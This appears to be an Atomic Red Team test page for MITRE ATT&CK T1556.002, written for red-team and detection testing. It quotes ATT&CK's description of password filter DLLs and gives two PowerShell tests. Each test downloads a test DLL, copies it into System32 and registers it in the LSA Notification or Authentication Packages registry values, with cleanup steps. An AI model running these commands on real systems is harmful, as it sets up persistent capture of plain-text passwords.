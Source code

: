# T1556.002 - Modify Authentication Process: Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/002)
<blockquote>

Adversaries may register malicious password filter dynamic link libraries (DLLs) into the authentication process to acquire user credentials as they are validated. 

Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as DLLs containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts. Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation. 

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made.(Citation: Carnal Ownage Password Filters Sept 2013)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)

- [Atomic Test #2 - Install Additional Authentication Packages](#atomic-test-2---install-additional-authentication-packages)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
The binary in bin is https://www.virustotal.com/gui/file/95140c1ad39fd632d1c1300b246293297aa272ce6035eecc3da56e337200221d/detection
Source is in src folder. 
This does require a reboot to see the filter loaded into lsass.exe. 
It does require Administrative privileges to import the clean registry values back into LSA, it is possible you may have to manually do this after for cleanup.

**Supported Platforms:** Windows


**auto_generated_guid:** a7961770-beb5-4134-9674-83d7e1fa865c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Path to DLL to be installed and registered | path | PathToAtomicsFolder&#92;T1556.002&#92;bin|
| dll_name | Name of the Password Filter | string | AtomicRedTeamPWFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
```

#### Cleanup Commands:
```powershell
reg.exe import "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
remove-item C:\Windows\System32\#{dll_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: AtomicRedTeamPWFilter.dll must exist on disk at specified location (#{dll_path}\#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}\#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/redcanaryco/atomicredteam/atomics/T1556.002/bin/AtomicRedTeamPWFilter.dll" -OutFile "#{dll_path}\#{dll_name}"
```




<br/>
<br/>

## Atomic Test #2 - Install Additional Authentication Packages
lsass.exe loads all DLLs specified by the Authentication Packages REG_MULTI_SZ value.
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
The binary in bin is https://www.virustotal.com/gui/file/95140c1ad39fd632d1c1300b246293297aa272ce6035eecc3da56e337200221d/detection
Source is in src folder. 
This does require a reboot to see the filter loaded into lsass.exe. 
It does require Administrative privileges to import the clean registry values back into LSA, it is possible you may have to manually do this after for cleanup.

**Supported Platforms:** Windows


**auto_generated_guid:** 91580da6-bc6e-431b-8b88-ac77180005f2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Path to DLL to be installed and registered as additional authentication package | path | PathToAtomicsFolder&#92;T1556.002&#92;bin|
| dll_name | Name of the Password Filter | string | AtomicRedTeamPWFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$AuthenticationPackagesValues = $lsaKey.GetValue("Authentication Packages")
$AuthenticationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Authentication Packages" $AuthenticationPackagesValues
```

#### Cleanup Commands:
```powershell
reg.exe import "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
remove-item C:\Windows\System32\#{dll_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: AtomicRedTeamPWFilter.dll must exist on disk at specified location (#{dll_path}\#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}\#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/redcanaryco/atomicredteam/atomics/T1556.002/bin/AtomicRedTeamPWFilter.dll" -OutFile "#{dll_path}\#{dll_name}"
```




<br/>
